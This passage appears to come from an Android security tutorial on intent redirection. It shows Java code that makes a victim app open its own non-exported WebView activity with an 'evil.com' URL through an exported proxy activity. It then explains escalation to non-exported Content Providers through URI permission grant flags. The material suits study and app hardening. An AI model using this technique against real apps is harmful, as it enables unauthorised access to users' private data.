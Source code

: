 ```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
startActivity(intent);
```

throws a `java.lang.SecurityException`, due to `Permission Denial`: `AuthWebViewActivity not exported from uid 1337`.

But the attacker can f**orce the victim to launch `AuthWebViewActivity` itself**:

```java
Intent extra = new Intent();
extra.setClassName("com.victim", "com.victim.AuthWebViewActivity");
extra.putExtra("url", "http://evil.com/");

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```

and no security violation will arise, because t**he app that is under attack does have access to all its own components**. Using this code fragment, the attacker can bypass the Android system’s built-in restrictions.

# Escalation of Impact

In order to escalate the impact of this vulnerability you need to **find other vulns/missconfigurations that could allow to increate the impact of the vulnerability** (as the vulnerability by it's own isn't creating any risks).

## Escalation of attacks via Content Providers

Besides access to arbitrary components of the original app, the **attacker can attempt to gain access to those of the vulnerable app’s Content Providers** that satisfy the following conditions:

* it must be **non-exported** (otherwise it **could be attacked directly**, without using the vulnerability we are discussing in this article)
* it must have the **`android:grantUriPermissions`** flag set to **`true`**.
  * `android:grantUriPermissions="true"` indicates that your Java code can use `FLAG_GRANT_READ_URI_PERMISSION` and `FLAG_GRANT_WRITE_URI_PERMISSION` for **any `Uri` served by that `ContentProvider`**.
  * `android:grantUriPermissions="false"` indicates that **only the `Uri` values specified by child `<grant-uri-permission>`** elements can be used with `FLAG_GRANT_READ_URI_PERMISSION` and `FLAG_GRANT_WRITE_URI_PERMISSION`.

The attacker must set itself as the recipient of an embedded intent and set the following flags

* `Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION` permits persistent access to the provider (without this flag, the access is one-time only)
* `Intent.FLAG_GRANT_PREFIX_URI_PERMISSION` permits URI access by prefix – for example, instead of repeatedly obtaining separate access using a complete path such as `content://com.victim.provider/image/1` the attacker can grant access to all the provider’s content using the URI `content://com.victim.provider/` and then use `ContentResolver` to address `content://com.victim.provider/image/1`, `content://com.victim.provider/image/2`, etc.
* `Intent.FLAG_GRANT_READ_URI_PERMISSION` permits read operations on the provider (such as `query`, `openFile`, `openAssetFile`)
* `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` permits write operations
